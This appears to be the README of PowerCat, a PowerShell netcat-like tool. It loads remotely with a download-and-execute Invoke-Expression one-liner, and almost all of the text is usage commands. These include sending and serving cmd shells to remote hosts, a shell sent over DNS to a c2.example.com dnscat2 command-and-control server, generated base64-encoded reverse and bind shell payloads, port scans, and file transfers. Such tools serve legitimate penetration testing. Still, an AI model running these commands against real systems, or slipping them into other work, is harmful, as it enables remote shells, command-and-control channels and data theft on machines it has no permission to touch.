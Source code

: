PowerCat
========
A PowerShell TCP/IP swiss army knife. #requires -Version 2

Installation
------------
PowerCat is a PowerShell module.  First you need to import the module before you can use the PowerCat functions.  You can put one of the below commands into your PowerShell profile so PowerCat is automatically loaded when PowerShell starts.
###
    Import the functions from downloaded .psm1 File:
        Import-Module PowerCat.psm1
    Load the functions individually from URL:
        Invoke-Expression (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/secabstraction/PowerCat/master/Invoke-PowerCat.ps1')
        Invoke-Expression (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/secabstraction/PowerCat/master/Invoke-DnsCat.ps1')

### Parameters:
    
    New-PowerCat
    
    -Listener       Listen for a connection.                            [Switch]
    -Client         IPv4 address of a listener to connect to.           [String]
    -Relay          Format: "<Mode>:10.1.1.1:443"                       [String]
    
    -Mode           Defaults to Tcp, can also specify Udp, Icmp         [String]
    -Port           The port to connect to or listen on.                [Int]
    -Execute        Execute a process.                                  [String]
    -PowerShell     Execute Powershell.                                 [Switch]
    -Timeout        Timeout option. Default: 60                         [Int]
    -Input          Filepath (string), byte array, or string.           [Object]
    -OutputType     Console Output Type: "Host", "Bytes", or "String"   [String]
    -OutputFile     Output File Path.                                   [String]
    -Disconnect     Disconnect after connecting.                        [Switch]
    -Repeat         Restart after disconnecting.                        [Switch]
    -Payload        Generate payload.                                   [Switch]
    -Encoded        Base64 encode payload.                              [Switch]
    
    Invoke-DnsCat
    
    -Server         Name of DnsCat2 server to connect to.               [String]
    -Threshold      DNS Failure Threshold.                              [Int]

Basic Connections
-----------------------------------
By default, PowerCat reads input from the console and writes input to the console using write-host. You can change the output type to 'Bytes', or 'String' with the -OutputType.
###
    Basic Listener:
        New-PowerCat -Listener -Port 443
        
    Basic Client:
        New-PowerCat -Client 10.1.1.1 -Port 443
        
    Basic Client, Output as Bytes:
        New-PowerCat -Client 10.1.1.1 -Port 443 -OutputType Bytes

File Transfer
-------------
PowerCat can be used to transfer files using the -Input and -OutputFile parameters.
###
    Send File:
        New-PowerCat -Client 10.1.1.1 -Port 443 -Input C:\pathto\inputfile
        
    Recieve File:
        New-PowerCat -Listener -Port 443 -OutputFile C:\pathto\outputfile

Shells
------
PowerCat can be used to send and serve shells. Specify an executable to -Execute, or use -PowerShell to execute powershell.
###
    Serve a cmd Shell:
        New-PowerCat -Listener -Port 443 -Execute cmd
        
    Send a cmd Shell:
        New-PowerCat -Client 10.1.1.1 -Port 443 -Execute cmd
        
    Serve a shell which executes powershell commands:
        New-PowerCat -Listener -Port 443 -PowerShell

DNS and UDP
-----------
PowerCat supports more than sending data over TCP. Specify -Mode Udp to enable UDP Mode. Data can also be sent to a [dnscat2 server](https://github.com/iagox86/dnscat2) via Invoke-DnsCat.
###
    Send Data Over UDP:
        New-PowerCat -Listener -Port 8000 -Mode Udp
        
    Connect to the c2.example.com dnscat2 server using the DNS server on 10.1.1.1:
        Invoke-DnsCat -Client 10.1.1.1 -Port 53 -Server c2.example.com
        
    Send a shell to the c2.example.com dnscat2 server using the default DNS server in Windows:
        Invoke-DnsCat -Server c2.example.com -Execute cmd

Relays
------
Relays in PowerCat work just like traditional netcat relays, but you don't have to create a file or start a second process. You can also relay data between connections of different protocols.
###
    TCP Listener to TCP Client Relay:
        New-PowerCat -Listener -Port 8000 -Relay tcp:10.1.1.16:443
        
    TCP Listener to UDP Client Relay:
        New-PowerCat -Listener -Port 8000 -Relay udp:10.1.1.16:53
        
    TCP Listener to DNS Client Relay
        Invoke-DnsCat -Listener -Port 8000 -Relay dns:10.1.1.1:53:c2.example.com
        
    TCP Listener to DNS Client Relay using the Windows Default DNS Server
        Invoke-DnsCat -Listener -Port 8000 -Relay dns:::c2.example.com
        
    TCP Client to Client Relay
        New-PowerCat -Client 10.1.1.1 -Port 9000 -Relay tcp:10.1.1.16:443
        
    TCP Listener to Listener Relay
        New-PowerCat -Listener -Port 8000 -Relay tcp:9000

Generate Payloads
-----------------
Payloads can be generated using -Payload or -Encoded parameters. 
###
    Generate a reverse tcp payload which connects back to 10.1.1.15 port 443:
        New-PowerCat -Client 10.1.1.15 -Port 443 -Execute cmd -Payload
        
    Generate a bind tcp encoded command which listens on port 8000:
        New-PowerCat -Listener -Port 8000 -Execute cmd -Payload -Encoded

Misc Usage
----------
PowerCat can also be used to perform port-scans, and start persistent listeners.
###
    Basic TCP port scan:
        1..1024 | ForEach-Object { New-PowerCat -Client 10.1.1.10 -Port $_ -Timeout 1 -Verbose -Disconnect }
    
    Basic UDP port scan:
        1..1024 | ForEach-Object { New-PowerCat -Mode Udp -Client 10.1.1.10 -Port $_ -Timeout 1 -Verbose }
        
    Persistent listener:
        New-PowerCat -Listener -Port 443 -Input C:\pathto\inputfile -Repeat

